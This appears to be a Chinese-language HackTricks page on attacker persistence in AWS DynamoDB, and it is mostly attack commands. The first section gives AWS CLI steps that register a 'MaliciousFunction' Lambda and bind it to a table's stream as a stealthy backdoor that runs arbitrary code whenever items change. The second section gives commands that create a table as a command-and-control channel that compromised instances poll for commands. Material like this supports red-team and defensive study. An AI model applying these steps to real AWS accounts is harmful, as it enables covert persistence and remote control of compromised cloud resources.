 # AWS - DynamoDB 持久性

{{#include ../../../banners/hacktricks-training.md}}

### DynamoDB

有关更多信息，请访问：

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### 使用 Lambda 后门的 DynamoDB 触发器

通过使用 DynamoDB 触发器，攻击者可以通过将恶意 Lambda 函数与表关联来创建一个 **隐秘的后门**。当添加、修改或删除项目时，可以触发 Lambda 函数，从而允许攻击者在 AWS 账户内执行任意代码。
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
为了保持持久性，攻击者可以在DynamoDB表中创建或修改项目，这将触发恶意的Lambda函数。这使得攻击者能够在AWS账户内执行代码，而无需直接与Lambda函数交互。

### DynamoDB作为C2通道

攻击者可以通过创建包含命令的项目并使用被攻陷的实例或Lambda函数来获取和执行这些命令，从而将DynamoDB表用作**命令和控制（C2）通道**。
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
被攻陷的实例或 Lambda 函数可以定期检查 C2 表以获取新命令，执行这些命令，并可选择将结果报告回表中。这使攻击者能够保持对被攻陷资源的持久性和控制。

{{#include ../../../banners/hacktricks-training.md}}
